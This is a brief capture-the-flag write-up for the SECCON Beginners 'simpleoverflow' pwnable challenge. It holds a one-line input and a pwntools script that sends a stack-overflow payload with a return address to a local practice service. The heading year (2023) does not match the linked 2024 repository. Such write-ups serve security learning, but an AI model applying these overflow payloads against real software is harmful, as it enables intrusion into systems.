 # SECCON Beginners CTF 2023

- https://github.com/SECCON/SECCON_Beginners_CTF_2024

## pwnable

### simpleoverflow

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=2m30s

#### Solution 1

```zsh
python3 -c "print('A'*10)"|./chall
```

#### Solution 2

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process, remote
context.log_level = 'debug'
exe = context.binary = ELF('./chall')
# io = exe.process([exe.path])
io = remote('::1', 9000)
io.sendlineafter(b'name:', b'A'*0xe + b'B'*0x8 + p64(0x4011ef))
io.interactive()
```
